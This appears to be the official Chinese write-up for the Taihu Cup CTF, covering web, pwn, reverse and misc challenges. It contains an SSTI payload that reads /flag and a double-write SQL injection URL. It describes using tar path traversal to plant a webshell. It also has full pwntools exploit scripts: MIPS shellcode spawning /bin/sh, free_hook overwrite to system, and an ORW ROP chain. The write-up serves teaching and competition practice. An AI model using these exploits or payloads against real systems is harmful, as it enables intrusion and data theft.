

太湖杯官方writeup
---------------

Asuri第一次举办这种外面的比赛，幸苦各位了
<!--more-->

## Web

### checkin

拼手速的游戏。其实也可以通过修改时间让游戏变慢更快得到flag，各自想办法即可~

### easy\_web

unicode规范化参考网址 [https://www.compart.com/en/unicode/](https://www.compart.com/en/unicode/)
通过unicode字符规范化来绕过字符检查

`︷︷ config.__class__.__init__.__globals__[＇os＇].popen(＇cat /flag＇).read() ︸︸`

### cross the filesystem field

1.SQL注入，验证waf的方法，输入1加各种关键字可以发现1select、1union可以通过，但是带入'、''均没有返回猜测语法报错。得知这两个参数可以双写绕过。绕过waf后，获取源码，发现存在隐藏参数submit1

```
view-source:http://127.0.0.1/?id=1%20uniunionon%20seselectlect%20load_file(0x2f7661722f7777772f68746d6c2f696e6465782e706870)
```

2.审计代码知道需要上传tar包，并且需要生成一个可以路径穿越tar包，大致才可如下。然后在upload目录生成一个webshell即可getshell。



3.生成方法

首先准备一个1.php，tar cf 1.tar 1.php

然后使用16进制编辑器，将1.php的路径进行修改，然后修改下面的额验证即可。

参考：[https://blog.csdn.net/xiejianjun417/article/details/94008196](https://blog.csdn.net/xiejianjun417/article/details/94008196)


## Pwn

### easyKooc
利用leave message 泄露cannary然后double free申请到栈上的地址控制程序执行chunk块内的shellcode
```python
from pwn import *
context.arch='mips'
context.log_level = 'debug'
# sh= process(["qemu-mipsel", "-g", "1234", "-L", "/usr/mipsel-linux-gnu/","./pwn"])
# sh = process(["qemu-mipsel", "-L", "/usr/mipsel-linux-gnu/","./pwn"])
sh = remote('127.0.0.1', 8888)

context.arch='mips'
context.os='linux'
context.update(bits = 32, endian = 'little')

def Write(Until, Text):
    sh.sendlineafter(Until, Text)

def Add(id, content): 
    Write('Plz input your choice\n', '1')
    Write('Plz input your todo id!\n', id)
    sh.sendafter('input your content', content)

def Delete(id):
    Write('Plz input your choice\n', '2')
    Write('Plz input your todo id!\n', id)

def Edit(Content) :
    Write('Plz input your choice\n', '3')
    sh.sendafter('What message do you want to leave?\n', Content)

#pause()

shellcode =  ""
shellcode += "\x66\x06\x06\x24\xff\xff\xd0\x04\xff\xff\x06\x28\xe0"
shellcode += "\xff\xbd\x27\x01\x10\xe4\x27\x1f\xf0\x84\x24\xe8\xff"
shellcode += "\xa4\xaf\xec\xff\xa0\xaf\xe8\xff\xa5\x27\xab\x0f\x02"
shellcode += "\x24\x0c\x01\x01\x01\x2f\x62\x69\x6e\x2f\x73\x68\x00"


Write("Plz input your motto!\n", shellcode)
sh.recvuntil('gift for you: ')
Stack_addr = int(sh.recvuntil('\n'), 16)
log.success('Stack_addr: ' + hex(Stack_addr))
Edit('a'*0x21)
sh.recvuntil('a'*0x20)
#Write('Plz input your choice\n', '4')
canary = u32(sh.recv(4)) - 0x61
log.success('canary: ' + hex(canary))

payload = 'a'*0x1c + p32(0x41)
Edit(payload)

fake_chunk = Stack_addr + 0x20

Add('1', 'a')
Add('2', 'a')
Delete('1')
Delete('2')
Delete('1')


Add('3', p32(fake_chunk))
Add('4', 'b')
sh.recvuntil('your content is: ')
heapbase = u32(sh.recv(4)) & 0xFFFFFF00
log.success('heapbase: ' + hex(heapbase))
Add('5', 'b')
Add('6', p32(canary) + p32(0x0) + p32(heapbase + 0x8))

Write('Plz input your choice\n', '4')


sh.interactive()
```

### sevenhero
```python
from pwn import *
sh = process('./pwn')
sh = remote('119.3.89.93', 8011)
#libc = ELF('./libc.so.6')
#context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
context.arch = "amd64"

def add(idx, size, content):
    sh.recvuntil('Input your choice:\n')
    sh.sendline('1')
    sh.recvuntil(': ')
    sh.sendline(str(idx))
    sh.recvuntil(': ')
    sh.sendline(str(size))
    sh.recvuntil(': ')
    sh.send(content)

def edit(idx, size, content):
    sh.recvuntil('Input your choice:\n')
    sh.sendline('2')
    sh.recvuntil(': ')
    sh.sendline(str(idx))
    sh.recvuntil(': ')
    sh.sendline(str(size))
    if(size == 0):
        sh.recvuntil('error!\n')
    else:
        sh.recvuntil(': ')
        sh.send(content)

def remove(idx):
    sh.recvuntil('Input your choice:\n')
    sh.sendline('3')
    sh.recvuntil(': ')
    sh.sendline(str(idx))

def show(idx):
    sh.recvuntil('Input your choice:\n')
    sh.sendline('4')
    sh.recvuntil(': ')
    sh.sendline(str(idx))

def group():
    sh.recvuntil('Input your choice:\n')
    sh.sendline('5')

for i in range(14):
    add(i, 0x50, 'a\n')

for i in range(6):
    remove(i)

edit(6, 0, '')
edit(7, 0, '')
for i in range(8, 14):
    remove(i)

show(6)
sh.recvuntil('content: ')
heapbase = u64(sh.recvuntil('\n')[:-1].ljust(8,'\x00')) -0x460
log.success('heapbase: ' + hex(heapbase))

edit(7, 0x50, p64(heapbase+0x250))
group()
add(8, 0x50, 'a\n')
group()

sh.recvuntil('Input your choice:\n')
sh.sendline('666')
sh.recvuntil('gift: ')
libcbase = int(sh.recvuntil('\n')[:-1],16) - 0x264140
log.success('libcbase: '+ hex(libcbase))

free_hook = libcbase + 0x1e75a8
system_addr = libcbase + 0x52fd0
sh.recvuntil('string: ')
sh.sendline(p64(0xdeadbeef))

add(9, 0x50, 'a\n')
edit(9, 0, '')
edit(9, 0x50, p64(free_hook))

sh.recvuntil('Input your choice:\n')
sh.sendline('666')
sh.recvuntil('string: ')
sh.sendline(p64(0xdeadbeef))

sh.recvuntil('Input your choice:\n')
sh.sendline('666')
sh.recvuntil('string: ')
sh.sendline(p64(system_addr))

add(10, 0x20, '/bin/sh\x00')
remove(10)

#gdb.attach(sh)

sh.interactive()
```

### manager
先利用Hash的溢出和爆破来Login
这里Hash采用的是base进制, base取了37, 且是unsinged long long 自然溢出.  


利用realloc(ptr,0) == free(ptr)的特点 进行doublefree 利用，由于题目开启了seccomp，禁用了execve，并且禁用了free_hook，因此选择泄露environ，并且用栈迁移到堆区写好的rop链上做ORW获取flag.

```cpp
#include<bits/stdc++.h>
using namespace std;
typedef unsigned long long ull; 
const int Len = 10000;
int a[500001];
char s[100005];
ull Ans0; 

bool Cmp(int x) {
     bool flag = true;
     for (int i = 0; i < Len; ++i)
          if (s[i] != s[x + i]) {
               flag = false;
               break;
          }
     if (flag) return false;
     unsigned long long Ans = 0;
     for (int i = 0; i < Len; ++i)
          Ans = Ans * 37 + s[x + i];
     return Ans == Ans0;
}

int main()
{
     int len=1;
     a[1]=1;
     int i;
     while(len<=100000)
     {
          for(i=0;i<len;i++)
          {
               if(a[i]==1)
                    a[i+len]=0;
               else
                    a[i+len]=1;
          }
          len=len*2;
     }
     for(i = 0; i < 100000; i++)
     {
          if(a[i]==1)
               s[i] = 'a';
          else
               s[i] = 'b'; 
     }

     for (int i = 0; i < Len; ++i)
          Ans0 = Ans0 * 37 + s[i]; 

     for (int i = 1; i < 100000 - Len; ++i)
          if (Cmp(i)) {
               for (int j = 0; j < Len; ++j)
                    printf("%c", s[j]);
               puts("");
               for (int j = 0; j < Len; ++j)
                    printf("%c", s[i + j]);
               break;
          }

     return 0;
}
```

```python
from pwn import *
context.log_level = 'DEBUG'
# sh = process('./manager')
sh = remote('127.0.0.1',8001)
libc = ELF('./libc-2.23.so')

def add(name,ids,length,info):
    sh.sendline('1')
    sh.recvuntil('Input Name of Staff:\n')
    sh.send(name)
    sh.recvuntil('Input Number of Staff:\n')
    sh.sendline(str(ids))
    sh.recvuntil('Input len of Info:\n')
    sh.sendline(str(length))
    sh.recvuntil('get Info:\n')
    if(length > 0):
        sh.send(info)
    sh.recvuntil('>>>')
def edit_name(ids,name):
    sh.sendline('2')
    sh.recvuntil('Input Number:\n')
    sh.sendline(str(ids))
    sh.recvuntil('> ')
    sh.sendline('1')
    sh.recvuntil('Input name:\n')
    sh.send(name)
    sh.recvuntil('>>>',timeout=0.1)
def edit_info(ids,length,info):
    sh.sendline('2')
    sh.recvuntil('Input Number:\n')
    sh.sendline(str(ids))
    sh.recvuntil('> ')
    sh.sendline('2')
    sh.recvuntil('Input len of Info:\n')
    sh.sendline(str(length))
    sh.recvuntil('Input info:\n')
    if(length > 0):
        sh.send(info)
    sh.recvuntil('>>>')
def realloc(ids):
    sh.sendline('2')
    sh.recvuntil('Input Number:\n')
    sh.sendline(str(ids))
    sh.recvuntil('> ')
    sh.sendline('2')
    sh.recvuntil('>>>')
def delete(ids):
    sh.sendline('3')
    sh.recvuntil('Input Number of Staff:\n')
    sh.sendline(str(ids))
    sh.recvuntil('>>>')
def show(ids):
    sh.sendline('4')
    sh.recvuntil('Input staff number:\n')
    sh.sendline(str(ids))
    # sh.recvuntil('>>>')

def Login():
    f = open('./password.out')
    s1 = f.readline()[:-1]
    s2 = f.readline()
    f.close()
    sh.sendafter('Input String1:', s1)
    sh.sendafter('Input String2:', s2)

Login()


add('a',1,0x90,'aaa')
payload = p64(0) + p64(0x21) + p64(0) * 2 + p64(0) + p64(0x21)
add('./flag',2,0x90,payload)
delete(1)
add('a',1,0x50,'\n')

show(1)
sh.recvuntil('Info:')
libc_base = u64(sh.recv(6).ljust(8,'\x00')) - 0x3C4B0A
log.success('libc_base = ' + hex(libc_base))
# gdb.attach(sh)
add('c',3,0,'')
add('d',4,0,'')

edit_info(3,0,'')
edit_info(4,0,'')
edit_info(3,0,'')

show(3)
sh.recvuntil('Info:')
heap_base = (u64(sh.recv(6).ljust(8,'\x00')) >> 12) << 12
log.success("heap_base = " + hex(heap_base))
# gdb.attach(sh)
edit_info(4,0x10,p64(0x170 + heap_base))
add('d',9,0x60,'./flag')
environ_addr = libc_base + 0x3c6f38
payload = p64(0) + p64(0x21) + p64(environ_addr) + p64(0x40) + p64(0) + p64(0x21)
edit_info(2,0x90,payload)
show(9)
sh.recvuntil('Info:')
environ = u64(sh.recv(6).ljust(8,'\x00'))
log.success("environ = " + hex(environ))
log.info('1')
payload = p64(0) + p64(0x21) + p64(heap_base + 0xb0) + p64(0x50) + p64(0) + p64(0x21)
edit_info(2,0x90,payload)
rdi_ret = 0x0000000000021112 + libc_base 
rsi_ret = 0x00000000000202f8 + libc_base
rdx_ret = 0x0000000000001b92 + libc_base
buf_addr = heap_base + 0x2000
leave_ret = libc_base + 0x0000000000042361
open_addr = libc_base + libc.symbols['open']
read_addr = libc_base + libc.symbols['read']
write_addr = libc_base + libc.symbols['write']
flag = heap_base + 0x130
rop = p64(rdi_ret) + p64(flag) + p64(rsi_ret) + p64(0) + p64(open_addr)
rop += p64(rdi_ret) + p64(3) + p64(rsi_ret) + p64(buf_addr) + p64(rdx_ret) + p64(0x30) + p64(read_addr)
rop += p64(rdi_ret) + p64(1) + p64(rsi_ret) + p64(buf_addr) + p64(rdx_ret) + p64(0x30) + p64(write_addr)
edit_info(9,0xa0,rop)
payload = p64(0) + p64(0x21) + p64(heap_base + 0x270) + p64(0x10) + p64(0) + p64(0x21)
rbp = environ - 0x128
rop_addr = heap_base + 0x380
edit_info(2,0x90,payload)
edit_info(9,0x10,p64(rbp) + p64(9))
# gdb.attach(sh)
edit_name(9,p64(rop_addr - 0x8) + p64(leave_ret))
# 
sh.interactive()
```

## Rev

### easy\_rev

简单的逆向，程序一开始玩了一点点小花招，再`init_array`将全局数组的内容改了。并且使用了arm中常见的anti-ida的技巧，混入了几个有问题的字节。**这里并不是塞得无意义字节啦，本意首先塞入一个叫做PLD的加速指令。**  
  
这个指令中提到，如果发生了异常，系统会将这个指令当成NOP处理。而出题使用的字节码为`0xF5DFDF02`，翻译成二进制即为
```
11110101110111111 1011 11100000010
                   ^
                   |
               注意这一段
```
而这个指令在手册中的定义如下。。。
  
我们把arm指令本身给破坏了，所以导致ida翻译失败，可能这也是导致qemu模拟的arm环境运行不起来，这个出题人才疏学浅，确实没有意识到这个问题 _出题人在树莓派上测试是可以执行的（包括使用gdb），所以没有意识到这个问题。。。_

这边只需要将这些全部nop即可:
处理之前
```
text:00010940 ; ---------------------------------------------------------------------------
.text:00010940
.text:00010940 loc_10940                               ; DATA XREF: start+20↑o
.text:00010940                                         ; .text:main↑o
.text:00010940                 STMFD   SP!, {R4,R11,LR}
.text:00010944                 ADD     R11, SP, #8
.text:00010948                 SUB     SP, SP, #0x84
.text:00010948 ; ---------------------------------------------------------------------------
.text:0001094C                 DCD 0xF5DFDF02, 0xE1A00000, 0xE1A00000, 0xE1A00000, 0xE1A00000
.text:0001094C                 DCD 0xE1A00000, 0xE1A00000, 0xE1A00000, 0xE24B305C, 0xE3A02000
.text:0001094C                 DCD 0xE5832000, 0xE5832004, 0xE5832008, 0xE583200C, 0xE5832010
.text:0001094C                 DCD 0xE5832014, 0xE5832017, 0xE3A03000, 0xE50B3020, 0xE3A01000
.text:0001094C                 DCD 0xE59F02E4, 0xEBFFFE8D, 0xE50B0024, 0xE3A03000, 0xE58D3004
```
处理之后
```
.text:00010940 fd              = -0x8C
.text:00010940 offset          = -0x88
.text:00010940 var_80          = -0x80
.text:00010940 var_78          = -0x78
.text:00010940 var_68          = -0x68
.text:00010940 var_64          = -0x64
.text:00010940 var_60          = -0x60
.text:00010940 var_5C          = -0x5C
.text:00010940 var_40          = -0x40
.text:00010940 var_3C          = -0x3C
.text:00010940 var_38          = -0x38
.text:00010940 var_34          = -0x34
.text:00010940 var_30          = -0x30
.text:00010940 var_2C          = -0x2C
.text:00010940 var_28          = -0x28
.text:00010940 var_24          = -0x24
.text:00010940 dest            = -0x20
.text:00010940 var_1C          = -0x1C
.text:00010940 var_18          = -0x18
.text:00010940 var_14          = -0x14
.text:00010940 var_10          = -0x10
.text:00010940 var_C           = -0xC
.text:00010940
.text:00010940                 STMFD   SP!, {R4,R11,LR}
.text:00010944                 ADD     R11, SP, #8
.text:00010948                 SUB     SP, SP, #0x84
.text:0001094C                 NOP
.text:00010950                 NOP
.text:00010954                 NOP
.text:00010958                 NOP
.text:0001095C                 NOP
.text:00010960                 NOP
.text:00010964                 NOP
.text:00010968                 NOP
.text:0001096C                 SUB     R3, R11, #-var_5C
.text:00010970                 MOV     R2, #0
.text:00010974                 STR     R2, [R3]
```

输入的字符的前13首先会进行一轮检测
```cpp
for ( k = 0; k <= 12; ++k )
  {
    v21 = *(int (__fastcall **)(_DWORD, _DWORD))&v33[4 * (k % 3) - 92];
    v1 = *((unsigned __int8 *)&v7 + k);
    if ( v1 != v21(*((unsigned __int8 *)&v14 + k), byte_2103C[k]) )
    {
      puts("Operation failed!!!");
      return -1;
    }
  }
  puts("Check next section");
```
这里会轮流call三个轮转函数，并且将全局变量`byte_2103C`传入。动态调试之后会发现，其实这三个函数分别是add/sub/xor，所以只需要逆向写这三个逻辑即可:

```python
def add(a,b):
    return (a+b)%256
def sub(a,b):
    return (a-b+256)%256
def xor(a,b):
    return a^b

def get_first():
    f_ops =[253, 154, 159, 232, 194, 174, 155, 45, 195, 17, 42, 53, 246 ]
    first = [ 99,210,254,79,185,217,0,63,160,128,67,80,85]
    func = [sub,add,xor]
    for i in range(len(first)):
        print(chr(func[i%3](first[i],f_ops[i])),end='')

if __name__ == "__main__":
    get_first()
# flag{welcome_
```

后面的逻辑和前面的类似，会运行一段类似解密逻辑，解开了发现是一个迷宫:
```
******
*   E*
* ****
* ****
* ****
*    *
```
这里出题有点失误。。。没有把所有的路径都解开，但是如果能解开的话完整逻辑为:
```
******
*   E*
* ****
* ****
* ****
*    *
**** *
**** *
****D*
******
```
然后从E点走到D点。然后发现题目会根据输入的路径异或解开flag，于是最后得到:
```python
def add(a,b):
    return (a+b)%256
def sub(a,b):
    return (a-b+256)%256
def xor(a,b):
    return a^b

def get_first():
    f_ops =[253, 154, 159, 232, 194, 174, 155, 45, 195, 17, 42, 53, 246 ]
    first = [ 99,210,254,79,185,217,0,63,160,128,67,80,85]
    func = [sub,add,xor]
    for i in range(len(first)):
        print(chr(func[i%3](first[i],f_ops[i])),end='')

def get_second():
    s_ops = [ 83,62,32,65,30,44,36,11,54,40,55,82,14]
    op = "aaassssdddsss"
    for i,j in zip(s_ops, op):
        print(chr(i^ord(j)),end='')

if __name__ == "__main__":
    get_first()
    get_second()
    # flag{welcome_2_A2m_WoRLD!}
```

### easy-app
主要加密逻辑在.so中，实际上就是变型base64+TEA算法
```cpp
#include <iostream>
#include <string>
#include <stdio.h>

using namespace std;

static const string base64_chars = "abcdefghijklmnopqrstuvwxyz!@#$%^&*()ABCDEFGHIJKLMNOPQRSTUVWXYZ+/";

static inline bool is_base64(unsigned char c)
{
  int i = 0;
  while (base64_chars[i] != c && i < 64)
  {
    i++;
  }
  return i < 64;
}

string base64_decode(string const &encoded_string)
{
  int in_len = encoded_string.size();
  int i = 0;
  int j = 0;
  int in_ = 0;
  unsigned char char_array_4[4], char_array_3[3];
  string ret;
  while (in_len-- && (encoded_string[in_] != '=') && is_base64(encoded_string[in_]))
  {
    char_array_4[i++] = encoded_string[in_];
    in_++;
    if (i == 4)
    {
      for (i = 0; i < 4; i++)
        char_array_4[i] = base64_chars.find(char_array_4[i]);
      char_array_3[0] = (char_array_4[2] << 2) + ((char_array_4[0] & 0x30) >> 4);
      char_array_3[1] = ((char_array_4[0] & 0xf) << 4) + ((char_array_4[1] & 0x3c) >> 2);
      char_array_3[2] = ((char_array_4[1] & 0x3) << 6) + char_array_4[3];
      for (i = 0; (i < 3); i++)
        ret += char_array_3[i];
      i = 0;
    }
  }
  if (i)
  {
    for (j = i; j < 4; j++)
      char_array_4[j] = 0;
    for (j = 0; j < 4; j++)
      char_array_4[j] = base64_chars.find(char_array_4[j]);
    char_array_3[0] = (char_array_4[2] << 2) + ((char_array_4[0] & 0x30) >> 4);
    char_array_3[1] = ((char_array_4[0] & 0xf) << 4) + ((char_array_4[1] & 0x3c) >> 2);
    char_array_3[2] = ((char_array_4[1] & 0x3) << 6) + char_array_4[3];
    for (j = 0; (j < i - 1); j++)
      ret += char_array_3[j];
  }
  return ret;
}

void decrypt(unsigned int *v, unsigned int *k)
{
  unsigned int v0 = v[0], v1 = v[1], sum = 0xC6EF3720, i;
  unsigned int delta = 0x9e3779b9;
  unsigned int k0 = k[0], k1 = k[1], k2 = k[2], k3 = k[3];
  for (i = 0; i < 32; i++)
  {
    v1 -= ((v0 << 4) + k2) ^ (v0 + sum) ^ ((v0 >> 5) + k3);
    v0 -= ((v1 << 4) + k0) ^ (v1 + sum) ^ ((v1 >> 5) + k1);
    sum -= delta;
  }
  v[0] = v0;
  v[1] = v1;
}

int main()
{
  string check1 = base64_decode("e)n*pNe%PQy!^oS(@HtkUu+Cd$#hmmK&ieytiWwYkIA=");
  unsigned int v[2] = {0, 0}, k[4] = {66, 55, 44, 33};
  for (int i = 0; i < check1.size(); i += 8)
  {
    unsigned int *v = (unsigned int *)&check1[i];
    // printf("%x %x\n", v[0], v[1]);
    decrypt(v, k);
    // printf("%x %x\n", v[0], v[1]);
  }
  string str1 = check1.substr(0, 16);
  string str2 = check1.substr(16, 16);
  string temp1 = "";
  string temp2 = "";
  for (int i = 0; i < str1.size() && i < str2.size(); i++)
  {
    temp1 += (str1[i] & 0xf) | (str2[i] & 0xf0);
    temp2 += (str2[i] & 0xf) | (str1[i] & 0xf0);
  }
  cout << "flag{" << temp1 + temp2 << "}" << endl;
}
```

### climb
一个小插曲：题目本身虽然是计划出成dump的形式，但是并不是如今的样子。现在的dump实际上是**出题人不小心写出来的bug形成的dump**。不过好像作为一个dump题还挺真实的，所以就直接拿来出题了（  

首先看到dump文件，发现是一个访问出错，并且发现访问的地址是一个不可写的地址，但是程序本身却是尝试与其进行异或:
```
00007ff7`aefe1080 4883ec28        sub     rsp,28h
00007ff7`aefe1084 ff158e860000    call    qword ptr [ClimbToTop!pfnLockResource (00007ff7`aefe9718)]
00007ff7`aefe108a 4c8b057f860000  mov     r8,qword ptr [ClimbToTop!g_Size (00007ff7`aefe9710)]
00007ff7`aefe1091 33c9            xor     ecx,ecx
00007ff7`aefe1093 4c8bc8          mov     r9,rax
00007ff7`aefe1096 498d4001        lea     rax,[r8+1]
00007ff7`aefe109a 4883f840        cmp     rax,40h
00007ff7`aefe109e 726b            jb      ClimbToTop!NewLockResource+0x8b (00007ff7`aefe110b)
00007ff7`aefe10a0 660f6f1598640000 movdqa  xmm2,xmmword ptr [ClimbToTop!_xmm (00007ff7`aefe7540)]
00007ff7`aefe10a8 498d5110        lea     rdx,[r9+10h]
00007ff7`aefe10ac 83e03f          and     eax,3Fh
00007ff7`aefe10af 4d8bd0          mov     r10,r8
00007ff7`aefe10b2 4c2bd0          sub     r10,rax
00007ff7`aefe10b5 6666660f1f840000000000 nop word ptr [rax+rax]
00007ff7`aefe10c0 f30f6f42f0      movdqu  xmm0,xmmword ptr [rdx-10h]
00007ff7`aefe10c5 83c140          add     ecx,40h
00007ff7`aefe10c8 488d5240        lea     rdx,[rdx+40h]
00007ff7`aefe10cc 4863c1          movsxd  rax,ecx
00007ff7`aefe10cf 660fefc2        pxor    xmm0,xmm2
00007ff7`aefe10d3 f30f7f42b0      movdqu  xmmword ptr [rdx-50h],xmm0
00007ff7`aefe10d8 f30f6f4ac0      movdqu  xmm1,xmmword ptr [rdx-40h]
00007ff7`aefe10dd 660fefca        pxor    xmm1,xmm2
```
在这边能够找到`pfnLockResource`，当前函数名字又叫做`ClimbToTop!NewLockResource`，可以猜测当前的可能正在发生hook。在调用链上，还能看到类似`AttachDetour`和`DetachDetour`的函数
```
00007ff7`aefe120e 488bc8          mov     rcx,rax
00007ff7`aefe1211 e8aa2a0000      call    ClimbToTop!DetourUpdateThread (00007ff7`aefe3cc0)
00007ff7`aefe1216 488d1563feffff  lea     rdx,[ClimbToTop!NewLockResource (00007ff7`aefe1080)]
00007ff7`aefe121d 488d0df4840000  lea     rcx,[ClimbToTop!pfnLockResource (00007ff7`aefe9718)]
00007ff7`aefe1224 e8571b0000      call    ClimbToTop!DetourAttach (00007ff7`aefe2d80)
00007ff7`aefe1229 e8e2250000      call    ClimbToTop!DetourTransactionCommit (00007ff7`aefe3810)
00007ff7`aefe122e 488bcf          mov     rcx,rdi
00007ff7`aefe1231 ff15e95d0000    call    qword ptr [ClimbToTop!_imp_LockResource (00007ff7`aefe7020)]
00007ff7`aefe1237 488bf8          mov     rdi,rax
00007ff7`aefe123a e861250000      call    ClimbToTop!DetourTransactionBegin (00007ff7`aefe37a0)
00007ff7`aefe123f ff15d35d0000    call    qword ptr [ClimbToTop!_imp_GetCurrentThread (00007ff7`aefe7018)]
00007ff7`aefe1245 488bc8          mov     rcx,rax
00007ff7`aefe1248 e8732a0000      call    ClimbToTop!DetourUpdateThread (00007ff7`aefe3cc0)
00007ff7`aefe124d 488d152cfeffff  lea     rdx,[ClimbToTop!NewLockResource (00007ff7`aefe1080)]
00007ff7`aefe1254 488d0dbd840000  lea     rcx,[ClimbToTop!pfnLockResource (00007ff7`aefe9718)]
00007ff7`aefe125b e8a0210000      call    ClimbToTop!DetourDetach (00007ff7`aefe3400)
```
结合题目基本上可以断定，整个进程**hook了API LockResource**。然后看到之后之后还有一些LoadRemoteLibrary之类的库，并且将当前load的资源穿了过去，所以可以联想到**dll本身会从exe的资源段释放**。这个exe 去hook了`LockResource`，说明其**企图修改LockResource的调用逻辑**。从逻辑中看到只是一个简单的异或。最后看到上下文可以明白本质上是**从资源段释放一个dll，并且通过hook LockResource 偷偷解密了资源，并且最后load到内存中**。实际上load的部分是一个反射dll注入，不过不影响做题，直接从内存中将这一段逻辑dump下来，然后按照解密逻辑倒推即可。

### DLL内部逻辑
首先可以发现整个逻辑会读入长度为192的01串，然后会尝试调用一个虚拟机。虚拟机看起来很大，但是实际上真正用到的汇编没几个。

可以确定的opcode在这边
```
.data:0000000180005038 opcode          db 81h, 34h, 8 dup(0), 31h, 4 dup(0), 32h, 1, 3 dup(0)
.data:0000000180005038                                         ; DATA XREF: sub_180001000+F↑w
.data:0000000180005038                                         ; sub_180001000+54↑w ...
.data:0000000180005038                 db 33h, 0C2h, 3 dup(0), 50h, 7, 0C2h, 3 dup(0), 82h, 83h
.data:0000000180005038                 db 8, 8 dup(0), 34h, 8 dup(0), 5, 1, 3 dup(0), 40h, 1
.data:0000000180005038                 db 0C0h, 3 dup(0), 51h
```
vm整体不是很长，并且有动态给字节码赋值的操作，大致逆向之后可以写出如下的逻辑:
```cpp
r0 = global_array[0]
g_sum = r0
r1 = 0
r2 = 1
r3 = 194
do{
    r0 = Dst[r1]
    if(r0 != '0')
    {
        r2 = r2+1
    }
    r0 = ans[r2+r3]
    r0 = g_sum + r0
    g_sum = r0
    r1 += 1
}while(r1 <192)
```
`global_array`的生成方式为
```cpp
 do
    {
      if ( v3 >= 1 )
      {
        global_array_line = global_array_;
        v5 = v3;
        do
        {
          ++global_array_line;
          *(global_array_line - 1) = rand() % 0xFFF;
          --v5;
        }
        while ( v5 );
      }
      ++v3;
      global_array_ += 194;
    }
```
`global_array`其中的值是固定值，并且其实按照类似**三角形**的形式再往其中填充数据（第一层只有一个数据，第二层有两个，以此类推）
根据题目描述可知，可能是一个求极值问题，根据输入的01决定选择三角形的哪条边。不过这边要求的是最大值而不是最小值，大约就是一个算法问题，可以写出解题思路:
```cpp
#include<iostream>
#include<algorithm>
#include<Windows.h>
#include<Ws2tcpip.h>
#define DEPTH 193
int dwTotal = 18528;
int TrEE[DEPTH][DEPTH];

void build_tree() {
	int sum = 0;
	for (int i = 1; i < DEPTH; i++)
	{
		sum += i;
	}
	for (int i = 1; i < DEPTH; i++)
	{
		for (int j = 1; j <= i; j++)
		{
			TrEE[i][j] = rand() % 0xfff;
		}
	}
	
}

int walk_tree(char* input)
{
	int size = strlen(input);
	int retValue = 0;
	if (size > 192)
	{
		puts("Error input [X]");
		return -1;
	}
	int sum = 0;
	int x = 0 , y = 0;
	int first_step = TrEE[1][1];
	sum += first_step;
	y = 1;
	x = 1;
	for (int i = 0; i < size; i++)
	{
		char ch = input[i];
		x += 1;
		switch (ch){
			case '1':
			{
				//right
				sum += TrEE[x][++y];
				break;
			}
			case '0':
			{
				//left
				sum += TrEE[x][y];
				break;
			}
		}
	}
	return sum;
}

int a[193][193];
std::string TrEEPath[193][193];

void find_large_path()
{
	for (int i = 0; i < DEPTH; i++)
	{
		for (int j = 0; j < DEPTH; j++)
		{
			a[i][j] = TrEE[i][j];
		}
	}

	int n, i, j = 0;
	n = 193;
	auto max = [](int a, int b) {
		if (a > b)
			return a;
		else 
			return b;		
	};
	for (i = n - 1; i >= 1; i--)
	{
		for (j = 1; j <= i; j++)
		{
			if (a[i][j - 1] > a[i][j])
			{
				TrEEPath[i - 1][j - 1] = "0" + TrEEPath[i][j-1];
			}
			else
			{
				TrEEPath[i - 1][j - 1] = "1" + TrEEPath[i][j];
			}
			a[i - 1][j - 1] = max(a[i][j - 1], a[i][j]) + a[i - 1][j - 1];
		}
	}

	printf("Now we found large number is %d\n", a[1][1]);
	//std::reverse(TrEEPath[0][0].begin(), TrEEPath[0][0].end());
	printf("The path is %s with size %d\n", TrEEPath[1][1].c_str(),TrEEPath[1][1].size());
	int result = walk_tree((char*)TrEEPath[1][1].c_str());
	printf("Walk result is %d\n", result);
	return;
}
int main() {
	build_tree();
	find_large_path();
}

```
最后得到的字符串为:
```
000100001000010100100100001000000000000100011001110111111110100010000100000001111110100111000000101110100111110010011101011111111110100010000100100111111101000010000111111111001100000011011101
```
程序最后会将这192个字符传换成数字，再和内部的魔数异或:
```cpp
do
    ++v93;
  while ( Dst[v93] );
  if ( v93 )
  {
    v94 = 0i64;
    do
    {
      v95 = -1i64;
      Dst[v94] ^= Dst[v94 + 32];
      ++v94;
      ++v0;
      do
        ++v95;
      while ( Dst[v95] );
    }
    while ( v0 < v95 );
  }
```
最后可以得到flag:
```
flag{cL1m8_w17H_vm_70_h4rV357}
```

## Misc

### omisc

这是一个压缩文件，直接打开需要密码，把它拖入010Editor里查看，发现是伪加密


把图中的地方改为00就可以了，之后打开压缩包，里面有两个文件：一个是文档，一个压缩包。查看后可以发现压缩包是加密的需要密码，那么就从文档入手，文档打开如下：


可以尝试各种解密都无法解开，可以猜测是隐藏了密钥，这是我们选中全部文本，右键字体，可以发现有内容被隐藏


